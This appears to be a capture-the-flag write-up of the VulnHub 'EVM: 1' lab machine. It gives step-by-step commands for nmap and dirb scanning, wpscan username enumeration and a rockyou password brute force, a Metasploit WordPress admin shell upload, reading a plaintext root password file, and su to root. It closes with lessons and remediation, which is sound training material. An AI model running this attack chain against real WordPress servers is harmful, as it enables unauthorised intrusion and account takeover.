





# EVM: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.103 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Root Flag** | /root/proof.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/evm-1,391/) |

## Attack Summary

nmap → dirb `/wordpress/` → wpscan (user: `c0rrupt3d_brain`, pass: `24992499`) → MSF `wp_admin_shell_upload` → Meterpreter → `/home/root3r/.root_password_ssh.txt` → `su root` (`willy26`) → root

## Methodology

1. Network discovery
2. Port scan and web enumeration
3. WordPress user and password enumeration (wpscan)
4. Metasploit WP admin shell upload
5. Credential discovery and `su` to root

---

## Step 1: Network Discovery

```bash
netdiscover
```

Target: 192.168.1.103

---

## Step 2: Port Scan

```bash
nmap -A 192.168.1.103
```

Open ports: 22 (SSH), 53 (DNS), 80 (HTTP), 110 (POP3), 139/445 (SMB), 143 (IMAP).



---

## Step 3: Web Enumeration

```bash
dirb http://192.168.1.103/
```

Finds `/wordpress/`. Page source contains a comment pointing to the WordPress install.



---

## Step 4: WordPress Enumeration with wpscan

```bash
wpscan --url http://192.168.1.103/wordpress/ -e at -e ap -e u
```

Identifies user `c0rrupt3d_brain` and the installed plugin `c0rrupt3d_brain`.

Brute-force the password:

```bash
wpscan --url http://192.168.1.103/wordpress -U c0rrupt3d_brain -P /usr/share/wordlists/rockyou.txt
```

Credentials: `c0rrupt3d_brain` / `24992499`



---

## Step 5: Exploitation via Metasploit

```bash
msfconsole -q
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS 192.168.1.103
set TARGETURI /wordpress
set USERNAME c0rrupt3d_brain
set PASSWORD 24992499
exploit
```

Meterpreter session opens as `www-data`.



---

## Step 6: Credential Discovery

```bash
# In Meterpreter
shell
python -c 'import pty;pty.spawn("/bin/bash")'
cd /home
ls
cd root3r
ls -la
cat .root_password_ssh.txt
```

Root password found: `willy26`

---

## Step 7: Privilege Escalation

```bash
su root
# password: willy26
whoami
cd /root
cat proof.txt
```



---

## Lessons Learned

1. **WordPress user enumeration** via wpscan trivially identifies valid usernames — enable login attempt limits
2. **Weak WP passwords** in rockyou means they're among the first cracked — enforce strong passwords
3. **`wp_admin_shell_upload`** is a reliable vector whenever WP admin credentials are known — disable XML-RPC and restrict the admin panel by IP
4. **Plaintext credentials in home directories** (`.root_password_ssh.txt`) are an inexcusable privilege escalation path — never store passwords in files

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| WordPress user enumeration | Disable the author enumeration endpoint (`?author=1`) |
| Weak password | Enforce strong password policy; enable 2FA |
| WP admin shell upload | Restrict `/wp-admin/` by IP; use CSP and file upload controls |
| Plaintext credentials in file | Remove credential files; use a secrets manager |
